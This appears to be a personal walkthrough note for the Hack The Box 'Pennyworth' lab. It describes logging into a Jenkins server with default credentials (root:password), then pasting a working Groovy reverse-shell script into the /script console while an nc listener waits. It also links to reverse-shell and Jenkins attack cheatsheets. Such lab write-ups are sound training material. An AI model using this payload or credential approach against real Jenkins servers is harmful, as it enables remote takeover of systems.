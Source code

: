 
27-09-2024 14:28 pm

Tags: [[Common Applications]] [[Jenkins]] [[Java]] [[Recon|Recon]] [[Remote Code Execution]] [[Default Credentials]] [[Groovy]]

References: https://app.hackthebox.com/starting-point


# Pennyworth

- scan with NMAP
- on TCP 8080 there is a web application
- Jenkins is discovered (Jenkins 2.289.1)
- check different default credentials and find `root:password`
- search for CVEs online with no result
- fortunately we have the links in the "Useful Links" section
- we get a reverse shell for Java from the cheatsheet (it works for Groovy)
Shell:
```shell-session
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- the reverse shell can be uploaded on `/script`
- before running the script execute `nc -lvnp <port>` to listen for the reverse shell
- run the Groovy script
- cd `root` -> cat `flag.txt`
- GG B^)







# Useful Links:

https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security
https://github.com/gquere/pwn_jenkins
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md //Reverse shell cheatsheet